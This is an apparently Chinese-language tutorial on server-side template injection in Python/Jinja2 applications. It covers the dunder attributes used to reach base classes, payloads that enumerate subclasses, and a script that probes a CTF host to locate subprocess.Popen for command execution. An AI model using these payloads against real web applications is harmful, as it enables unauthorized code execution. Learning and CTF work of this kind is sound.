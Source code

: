 ﻿---
title: SSTI学习(二)
categories: web漏洞
---
## 一：常见SSTI魔术方法

```bash
 __class__  返回类型所属的对象
 __mro__    返回一个包含对象所继承的基类元组，法 在解析时按照元组的顺序解析。
 __base__   返回该对象所继承的基类   // __base__和__mro__都是用来寻找基类的

 __subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
 __init__  类的初始化方法
 __globals__  对包含函数全局变量的字典的引用  
 __builtins__ 即是引用，可直接调用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以可以直接调用引用的模块
```


---
## 二：获取基类方法

```bash
[].__class__.__base__
''.__class__.__mro__[2]
().__class__.__base__
{}.__class__.__base__

request.__class__.__mro__[8] 　　//针对jinjia2/flask为[9]适用
或者
[].__class__.__bases__[0]       //其他的类似
```

---
## 三：获取基本类的子类

```bash
>>>[].__class__.__base__.__subclasses__()
```
这里回显了很长一个列表，这里可以将这些数据放在列表中

ssti的主要目的就是从这么多的子类中找出可以利用的类（一般是指读写文件的类）加以利用。

那么我们可以利用的类有哪些呢？

---
## 四：寻找可利用的类
Python 的版本不同，可利用类的位置也是不同的。所以每一回都要找可利用类的位置。可以用脚本遍历：

寻找 popen：

```bash
import requests
import time
import html

for i in range(1, 500):
    url = "http://51d49043-d919-40c5-a17a-ae90387c6a3e.node3.buuoj.cn/?search={{''.__class__.__mro__[2].__subclasses__()["+str(i)+"]}}"
    req = requests.get(url)
    time.sleep(0.1)
    # 这里是找subprocess.Popen
    if "subprocess.Popen" in html.escape(req.text):
        print(i)
        print(html.unescape(req.text))
```